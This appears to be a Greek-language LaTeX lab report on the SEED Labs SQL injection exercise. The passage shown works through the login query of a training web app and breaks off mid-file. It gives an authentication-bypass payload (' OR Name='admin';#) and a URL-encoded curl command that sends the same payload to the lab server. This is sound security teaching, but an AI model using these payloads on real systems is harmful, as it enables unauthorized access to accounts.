% Writed by: Stavros Papantonakis
%
%!TEX TS-program = xelatex
%!TEX encoding = UTF-8 Unicode
%
\setcounter{section}{0}
\section*{Δραστηριότητες εργαστηρίου}


\noindent
Η web εφαρμογή που θα χρησιμοποιήσουμε φιλοξενείται στη διεύθυνση
\url{www.SEEDLabSQLInjection.com}. Αυτή η web εφαρμογή είναι μια απλή
εφαρμογή διαχείρισης υπαλλήλων. Οι εργαζόμενοι μπορούν να δουν και να
ενημερώσουν τα προσωπικά τους στοιχεία στη βάση δεδομένων μέσω αυτής της
web εφαρμογής. Υπάρχουν δύο βασικές κατηγορίες χρηστών σε αυτήν την
εφαρμογή: Ο διαχειριστής είναι ένας χρήστης με προνόμια διαχείρισης και μπορεί
να διαχειριστεί τις πληροφορίες προφίλ κάθε εργαζομένου. Ο υπάλληλος είναι ένας
κανονικός χρήστης και μπορεί να δει ή να ενημερώσει μόνο τις δικές του
πληροφορίες προφίλ. Όλες οι πληροφορίες που έχουν ήδη εισαχθεί για τους
υπαλλήλους περιγράφονται στον παρακάτω πίνακα.

\begin{center}
			
\includegraphics[width=1\textwidth]{image/table1.PNG}		
\end{center}

\section{Εξοικείωση με τίς εντολές SQL}

\subsection*{Απάντηση:}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/4.2.PNG}		
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/4.3.PNG}		
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/3.PNG}		
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/4.PNG}		
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/5.PNG}		
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/5.1.PNG}		
\end{center}

\newpage
\section{Επίθεση SQL Injection σε εντολές SELECT}

\subsection{Επίθεση SQL Injection από την ιστοσελίδα}
\subsection*{Απάντηση:}
\noindent
Για να συνδεθούμε ως admin στην σελίδα μπορούμε να χρησιμοποιήσουμε την παρακάτω εντολή.
\begin{center}
	\begin{lstlisting}	
' OR Name='admin';#	
	\end{lstlisting}	
\end{center}

\noindent 
Όταν γράφουμε  username, password και επιλέγουμε login αυτό που γίνετε είναι, ότι στέλνετε ένα GET στων 
Server με τα δεδομένα που πληκτρολογήσαμε, αντικαθίστανται στα αντίστοιχα πεδία ενός query που είναι
γραμμένο στο αρχείο .php και αποστέλλονται στην βάση. Επιστρέφοντας εάν έχει κάνει match, μας εμφανίζει
τα δεδομένα του αντιστοίχου χρήστη.

\noindent
Το query ειναι της μορφης 

\begin{center}
	\begin{lstlisting}	
SELECT * FROM credential 
WHERE Name ='\$Name' 
AND Password = '\$Pass';
	\end{lstlisting}	
\end{center}

\noindent
Αυτό που πληκτρολογούμε στα πεδία username και password αντικαθιστάτε στα \$Name και \$Pass.
Επόμενος με την παραπάνω εντολή το query που παράγετε είναι το παρακάτω.

\begin{center}
	\begin{lstlisting}	
SELECT * FROM credential 
WHERE Name ='' OR Name='admin';#' 
AND Password = '';
	\end{lstlisting}	
\end{center}

\noindent
Ο χαρακτήρας \# στην MySQL λειτουργεί ως έναρξη σχόλιου επομένως ότι βρίσκετε μετά από αυτόν
αγνοείτε από την MySQL. Συνεπώς το query που εκτελείτε τελικά στην βάση είναι αυτό.

\begin{center}
	\begin{lstlisting}	
SELECT * FROM credential 
WHERE Name ='' OR Name='admin';
	\end{lstlisting}	
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/2.1.PNG}		
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/2.4.PNG}		
\end{center}


\subsection{Επίθεση SQL Injection από τη γραμμή εντολών}
\subsection*{Απάντηση:}

\noindent
Για την επίθεση μεσώ γραμμής εντολών χρησιμοποιούμε την παρακάτω εντολή.

\begin{center}
	\begin{lstlisting}	
curl http://www.seedlabsqlinjection.com/
unsafe_home.php?username=%27+OR+Name
+%3D+%27admin%27%3B%23&Password=
	\end{lstlisting}	
\end{center}

\noindent 
Επειδή το εκτελούμε στην γραμμή εντολών πρέπει να μετατρέψουμε τους ιδικούς χαρακτήρες
σε Ascii για παράδειγμα ο χαρακτήρας ' μεταφράζετε σε %27, = σε %3D, ; σε %3B, # σε %23, + σε %2b.

\begin{center}
			
\includegraphics[width=1\textwidth]{image/d2.4.1.PNG}		
\end{center}

\begin{center}
